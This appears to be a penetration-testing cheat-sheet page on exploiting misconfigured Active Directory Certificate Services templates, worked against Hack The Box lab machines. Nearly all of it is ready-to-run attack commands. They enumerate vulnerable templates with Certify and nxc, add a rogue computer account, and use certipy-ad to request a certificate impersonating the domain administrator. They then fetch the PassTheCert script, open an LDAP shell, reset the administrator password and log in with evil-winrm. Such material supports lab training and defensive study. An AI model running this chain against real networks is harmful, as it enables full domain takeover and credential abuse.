 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>
